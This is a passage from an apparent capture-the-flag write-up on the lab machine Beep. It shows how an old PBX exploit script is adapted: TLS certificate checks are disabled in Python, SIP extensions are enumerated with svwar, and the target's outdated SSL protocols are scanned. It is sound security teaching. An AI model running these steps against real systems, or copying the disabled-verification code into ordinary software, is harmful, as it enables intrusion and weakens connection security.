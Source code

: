 The first is easy. The second took some Googling, but I found I could
create an SSL context that said to ignore the certificate errors, and
pass it into the request like this:



    ctx = ssl.create_default_context()
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE

    urllib.urlopen(url, context=ctx) 



The last one is an issue specific to the instance of the PBX. I need an
open extension, so I'll use `svwar` to look for one:



    root@kali# svwar -m INVITE -e100-999 10.10.10.7
    WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
    | Extension | Authentication |
    ------------------------------
    | 233       | reqauth        |



I'll add that to the script where it defines `extension`.

In 2018, I could run this script, and get a shell. In 2021, it throws
more errors:



    root@kali$ python2 18650.py
    ...[snip]...
    IOError: [Errno socket error] [SSL: UNSUPPORTED_PROTOCOL] unsupported protocol (_ssl.c:727)



This server is so old it's using a protocol for SSL below what my
machine will allow. `sslscan` will show the versions that Beep is
supporting:



    root@kali$ sslscan 10.10.10.7
    Version: 2.0.6-static
    OpenSSL 1.1.1i-dev  xx XXX xxxx

    Connected to 10.10.10.7

    Testing SSL server 10.10.10.7 on port 443 using SNI name 10.10.10.7
                                                   
      SSL/TLS Protocols:                           
    SSLv2     disabled                             
    SSLv3     enabled                              
    TLSv1.0   enabled                              
    TLSv1.1   disabled                             
    TLSv1.2   disabled                             
    TLSv1.3   disabled
